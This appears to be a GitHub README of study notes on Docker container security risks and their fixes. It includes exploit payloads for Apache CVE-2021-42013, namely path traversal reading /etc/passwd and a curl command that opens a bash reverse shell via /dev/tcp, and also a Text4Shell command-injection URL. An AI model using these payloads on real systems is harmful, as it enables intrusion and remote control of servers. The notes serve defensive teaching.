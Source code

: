 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>

<details> 
<summary> 3: Insecure Container Configurations </summary>
  
- Misconfigurations may lead to disclose of sensitive date.
- Resolution: Implementation security measures like runtime security amd configuration management.
- Best practises: Implementation of Network segmentation, process isolation and orchestratrion (like kubernetes have default security measures)
- Best Practises: Add necessary access / remove unnecessary access like below examples:
drops capability to modify time -- ``` docker run --cap-drop=SYS_TIME -d my-image ```
Adds Network Bind Service -- ``` docker run --cap-add=NET_BIND_SERVICE -d my-image ```
- Conduct security assessments.
  
### Example: 
- We can set environment variables in Docker file. Setting credentails as Environment variables may disclose them.
</details>


<details> 
<summary> 4: Container Escape Vulnerabilities </summary>
  
- Breaking out from the container is known as "container escape". It allows an attacker to escape from a container to other container or underlying host and gain access to them.
- Option like --privileged may give access to all host systems. It is the same as executing a process with root privileges on the host machine.
``` docker run --privileged -it --name my-container my-image ```
- Resolution: Implementation security measures like runtime security and process isolation
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Best Practises: Keep containers updated.
- Conduct security assessments.

</details>

<details> 
<summary> 5: Inadequate Process Isolation </summary>
  
- Process running in different conmtainers may interact with each other. 
- This can lead to cross container compromise and data breaches.
- Resolution: Implementation process isolation through Namespace isolation (It Isolates Network, File system) and cgroups (Helps to limit resources that container can consume like CPU, memory, I/O)
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --pid when starting the container. Process runnin gunder the pid cannot access process on host system. 
``` docker run --pid=container -d my-image ```
- Limit CPU usage when starting container.
``` docker run --cpu-share=512 --memory=512m --memory-swap=1g -d my-image ```  

### Cross Container Compromise with SYS_PTRACE capability
- SYS_PTRACE is a linux kernal process / capability which traces and debugs other process. It can reads / modifies memory, registry and extract sensitive data.

</details>
